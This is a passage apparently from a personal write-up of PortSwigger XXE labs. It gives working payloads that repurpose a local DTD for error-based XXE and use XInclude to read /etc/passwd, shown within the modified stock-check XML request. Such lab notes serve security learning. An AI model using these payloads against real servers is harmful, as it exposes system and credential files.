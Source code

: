 ```bash
'>
%local_dtd;
]>

To

<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamsa '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd"> <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>"> &#x25;eval;
&#x25;error;
'>
%local_dtd;
]>

Change:

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>1</productId>
<storeId>1</storeId></stockCheck>

To

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamsa '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd"> <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>"> &#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
<stockCheck>1<productId>1</productId>
<storeId>1</storeId></stockCheck>

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220516223507.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220516223526.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220516224532.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220516224558.png)

### Exploiting XInclude to retrieve files
```bash

#### This lab has a "Check stock" feature that embeds the user input inside a server-side XML document that is subsequently parsed.

#### Because you don't control the entire XML document you can't define a DTD to launch a classic [XXE](https://portswigger.net/web-security/xxe) attack.

#### To solve the lab, inject an `XInclude` statement to retrieve the contents of the `/etc/passwd` file.

<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>

```